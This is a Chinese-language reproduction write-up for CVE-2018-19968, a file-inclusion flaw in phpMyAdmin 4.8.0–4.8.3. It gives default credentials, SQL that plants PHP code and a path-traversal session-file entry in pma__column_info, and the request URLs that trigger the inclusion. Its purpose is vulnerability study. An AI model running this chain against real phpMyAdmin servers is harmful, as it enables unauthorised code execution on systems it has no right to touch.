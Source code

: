 （CVE-2018-19968）Phpmyadmin 文件包含漏洞
=========================================

一、漏洞简介
------------

Transformation是phpMyAdmin中的一个高级功能，通过Transformation可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段
'Filename'，正常情况下 phpMyAdmin
只会将路径显示出来。但是通过Transformation我们可以将该字段转换成超链接，我们就能直接在
phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的pma\_\_column\_info表中，而在phpMyAdmin
4.8.0\~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

二、漏洞影响
------------

Phpmyadmin 4.8.0\~4.8.3

三、复现过程
------------

1、首先登陆进后台，这里默认是root, toor

![](./.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId24.png)

2、创建数据库，并将PHP代码写入SESSION文件中

    CREATE DATABASE foo;
    CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
    INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';

访问[http://www.0-sec.org/chk\_rel.php?fixall\_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。](http://www.0-sec.org/chk_rel.php?fixall_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。)

![](./.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId26.png)

将篡改后的Transformation数据插入表pma*\_columninfo中将sess**中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值，抓包查看session
id，如下

![](./.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId27.png)

    INSERT INTO pma__column_info SELECT '1', 'foo', 'bar', 'baz', 'plop', 'plop', 'plop', 'plop', '../../../../../../../../tmp/sess_***','plop'; 
    \#将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值

![](./.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId28.png)

然后访问

<http://www.0-sec.org/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name%5Bmulti_edit%5D%5B%5D%5B%5D=baz&clause_is_unique=1>
就能自动包含刚才插入数据库表的恶意代码

![](./.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId30.shtml)
